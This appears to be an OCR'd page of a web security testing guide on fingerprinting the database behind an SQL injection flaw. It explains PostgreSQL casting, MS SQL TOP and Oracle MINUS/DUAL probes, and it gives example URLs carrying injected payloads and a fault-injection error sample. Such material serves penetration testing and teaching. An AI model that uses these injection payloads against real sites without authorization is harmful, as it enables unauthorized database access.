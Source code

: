 Postgres define the :: operator to perform data casting. It means that `1` as `INT` can be convert to `1` as `CHAR` with the following statements:

`SELECT 1::CHAR`

So, if you determine that `http://www.example.com/news.php?id=1` is vulnerable to a BLIND SQL Injection the following comparison should be true when backend engine is PostgreSQL:
```
 http://www.example.com/news.php?id=1
 http://www.example.com/news.php?id=1 AND 1=1::int
```

MS SQL Server: `T-SQL` adds `TOP` expression for `SELECT` statements in order to upper limit retrieved result set:

`SELECT TOP 10 FROM news`

The following comparison should be true on MS SQL:
```
http://www.example.com/news.php?id=1
http://www.example.com/news.php?id=1 UNION ALL SELECT TOP 1 NULL,NULL 
```

* Oracle:

Oracle implements the following set operators:
```
* UNION 
* UNION ALL
* INTERSECT
* MINUS
```
`MINUS` has not yet been implemented on other DBMS so we can inject it to see if it get executed by backend database with no errors at all.

- /news.php?id=1 is vulnerable to SQL Injection
- through UNION SQL INJECTION we determine how many expression are retrieved from news.php to the backend DBMS
- replace UNION with MINUS to see if you get back original page (/news.php?id=1)

```
http://www.example.com/news.php?id=1
http://www.example.com/news.php?id=1 UNION ALL SELECT NULL FROM DUAL
http://www.example.com/news.php?id=1 UNION ALL SELECT NULL,NULL FROM DUAL
http://www.example.com/news.php?id=1 UNION ALL SELECT NULL,NULL,NULL FROM DUAL
http://www.example.com/news.php?id=1 MINUS SELECT NULL,NULL,NULL FROM DUAL
```

## Error Codes Analysis

By performing fault injection, or fuzzing, we can gather important information through error code analysis when web application framework reports errors. Let'see some examples: 
```
http://www.example.com/store/findproduct.php?name='

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version 
for the right syntax to use near '''''   at line 1
```
